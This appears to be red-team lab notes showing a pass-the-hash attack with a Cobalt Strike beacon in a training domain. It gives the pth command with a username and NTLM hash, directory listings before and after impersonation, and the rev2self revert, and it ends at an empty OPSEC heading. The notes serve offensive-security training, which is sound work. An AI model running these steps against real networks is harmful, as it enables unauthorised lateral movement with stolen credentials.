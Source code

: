 ## Pass the Hash

---

1. Attempt to list the C$ share of the WEB machine - this will fail because bfarmer is not a local admin there.
```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> ls \\web.dev.cyberbotic.io\c$
[-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```
2. Then run the `pth` command with a username and its NTLM hash.
```
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
```
3. Attempt to list the C$ share again, which will succeed.
```
beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 18:58:09   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 11:02:25   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     08/31/2022 17:40:32   ProgramData
          dir     08/15/2022 18:31:08   Recovery
          dir     08/30/2022 11:16:24   System Volume Information
          dir     08/30/2022 17:51:08   Users
          dir     08/30/2022 20:19:27   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/01/2022 07:26:41   DumpStack.log.tmp
 384mb    fil     09/01/2022 07:26:41   pagefile.sys
```
4. To "drop" impersonation afterwards, use the `rev2self` command.
```
beacon> rev2self
[*] Tasked beacon to revert token

beacon> ls \\web.dev.cyberbotic.io\c$
[-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```

**OPSEC**  
  